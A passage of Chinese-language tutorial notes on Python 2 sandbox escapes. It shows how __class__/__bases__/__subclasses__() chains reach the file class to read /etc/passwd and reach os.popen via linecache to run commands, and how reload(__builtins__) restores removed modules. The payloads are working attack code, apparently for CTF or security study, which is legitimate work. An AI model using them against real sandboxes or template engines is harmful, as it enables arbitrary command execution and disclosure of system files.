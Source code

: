 ### Python2当中的利用

tips：python2的`string`类型不直接从属于属于基类，所以要用两次 `__bases__[0]`

```
''.__class__.__bases__[0] <type 'basestring'>
''.__class__.__bases__[0].__bases__[0] <type 'object'>
```

- `file`类读写文件

本方法只能适用于python2，因为在python3中`file`类已经被移除了

```
''.__class__.__bases__[0].__bases__[0].__subclasses__()[40] <type 'file'>

```

可以使用dir查看file对象中的内置方法

```
dir(''.__class__.__bases__[0].__bases__[0].__subclasses__()[40])

['__class__', '__delattr__', '__doc__', '__enter__', '__exit__', '__format__', '__getattribute__', '__hash__', '__init__', '__iter__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'close', 'closed', 'encoding', 'errors', 'fileno', 'flush', 'isatty', 'mode', 'name', 'newlines', 'next', 'read', 'readinto', 'readline', 'readlines', 'seek', 'softspace', 'tell', 'truncate', 'write', 'writelines', 'xreadlines']
```

然后直接调用里面的方法即可，payload如下

读文件

```
''.__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/etc/passwd').read()
''.__class__.__bases__[0].__bases__[0].__subclasses__()[40]('/etc/passwd').readlines()
```

- warnings`类中的`linecache

  本方法只能用于python2，因为在python3中会报错`'function object' has no attribute 'func_globals'`，不知道为啥
  
  ```
  (<class 'warnings.catch_warnings'>)
  # -*- coding: UTF-8 -*-
  print ().__class__.__bases__[0].__subclasses__()[-20].__init__.func_globals['linecache'].os.popen('whoami').read()
  ```
  

### 删除了很多模块，但是没有删除reload

```python
比如删除了__builtins__下的各种利用模块
reload(__builtins__)，重新加载被删除的模块，直接命令执行，只用于py2  
```

### python3当中的利用
